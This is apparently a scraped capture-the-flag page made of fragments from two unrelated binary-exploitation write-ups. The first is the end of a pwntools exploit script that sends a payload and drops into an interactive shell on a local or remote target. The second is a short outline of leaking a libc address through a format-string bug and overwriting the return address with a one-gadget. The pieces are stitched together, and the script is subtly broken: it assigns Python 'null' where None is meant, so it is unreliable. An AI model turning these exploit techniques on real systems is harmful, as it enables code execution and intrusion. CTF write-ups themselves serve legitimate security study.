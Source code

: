```  
   io.send(p.ljust(1024, b"\x00")) # 1024 (the max input size), from: read(1,
username, 1024);

   io.interactive()

if __name__ == "__main__":  
   io, libc = null, null

   if args.REMOTE:  
       REMOTE = True  
       io = remote(HOST, PORT)  
       # libc = ELF("___")  
  
   else:  
       LOCAL = True  
       io = process(  
           [TARGET, ],  
           env={  
           #     "LD_PRELOAD":DIR+"/___",  
           #     "LD_LIBRARY_PATH":DIR+"/___",  
           },  
       )  
       # libc = ELF("___")  
   exploit(io, libc)  
		```

Original writeup (https://hackmd.io/@vidner/nullcon-sksd#Babypwn-pwn).Exploit a signedness and a format string vulnerability to:

* Leak a libc address and calculate the libc base address.  
* Overwrite the return address with the address of entry0, which will simply start the program once again after we received the leak.  
* Calculate the address of the a one gadget using the received leak.  
* Overwrite the return address with the address of the one gadget.

Original writeup (https://devel0pment.de/?p=1191).